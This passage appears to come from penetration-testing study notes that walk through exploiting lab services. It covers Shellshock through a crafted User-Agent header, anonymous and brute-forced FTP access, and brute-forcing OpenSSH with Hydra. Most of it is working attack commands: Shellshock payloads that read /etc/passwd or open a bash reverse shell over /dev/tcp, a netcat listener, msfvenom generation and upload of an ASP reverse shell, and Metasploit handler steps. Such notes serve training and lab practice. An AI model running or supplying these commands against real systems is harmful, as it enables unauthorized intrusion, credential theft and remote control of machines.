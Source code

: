  4. Open burp, capture page(or script) and send to repeater, change the user-agent header: `(){ :; }; echo; echo; /bin/bash -c 'cat /etc/passwd/` and send
 5. *Reverse shell:* set up netcat listner: `nc -nvlp 1234`
 6. In Burp Suite change User-Agent to:  `(){ :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/10.10.x.x/1234 0>&1` then hit send.
  ![alt text](/assets/shellshock.png)
**MSF Shellshock Exploit**
1. start: `service postgresql start && msfconsole`
2. search: `search shellshock` look for: `exploit/multi/http/apache_mod_cgi_bash_env_exec` use 5 maybe?
3. set options: RHOSTS, set TARGETURI `/gettime.cgi` <--- this is the exploitable cgi script
4. run

### Exploiting FTP
- FTP port 21, file sharing
- Can be anonymous access: check: `nmap -sV 10.10.x.x --script=ftp-anon`
- can be a brute force attack
- Search for version vuln: `searchsploit versionOfFTP`
1. After FTP found: try anonymous `ftp 10.10.x.x 21` 
2. If not 1. : find namp scripts `ls -la /usr/share/nmap/scripts/ | grep ftp-* ` -> run nmap script: `nmap -sV 10.10.x.x --script=ftp-anon`
3. Hydra bruteforce: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.x.x -t 4 ftp`
4. login: `ftp 10.10.x.x` --> fill in username and password --> to download / show file `get secret.txt`
5.  if supports .asp, try to get a reverse shell with and asp file
6.  create reverse shell: `msfvenom -p windows/shell/reverse_tcp LHOST=... LPORT=1234 -f asp > shell.aspx`
7.  log in to FTP server while in the same working directory as where the reverse shell is stored, then -> in FTP `put shell.aspx`
8.  start msfconsole, then: `use multi/handler` -> `set payload windows/shell/reverse_tcp` -> set LHOST -> set LPORT -> run
9.  go to browser and navigate to shell: `10.10.x.x/shell.aspx` , if it does not work try another exploit. 
### Exploiting OpenSSH
- TCP port 22
1. Brute force attack: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 10.10.x.x -t 4 ssh`
2. login: `ssh sysadmin@10.10.x.x`
3. open msfconsole -> `search ssh_login` -> `use 0` -> `set RHOSTS` -> `set USERNAME vagrant` -> `set PASSWORD vagran`t -> `sessions` to see ->use session `sessions 1` -> `background` OR `CTRL+z`. or just stop at `sessions 1`
   
